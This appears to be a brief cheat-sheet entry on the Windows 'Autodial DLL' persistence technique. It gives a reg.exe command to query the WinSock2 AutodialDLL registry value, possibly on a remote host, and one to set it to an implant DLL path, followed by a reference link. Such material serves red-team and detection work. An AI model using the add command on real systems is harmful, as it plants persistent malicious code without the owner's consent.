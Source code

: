 # Autodial DLL

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\AutodialDLL
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\AutodialDLL /t REG_SZ /v AutodialDLL /d "C:\path\to\implant.dll" /f
```

---
## References

- [Persistence Info: Autodial DLL](https://persistence-info.github.io/Data/autodialdll.html)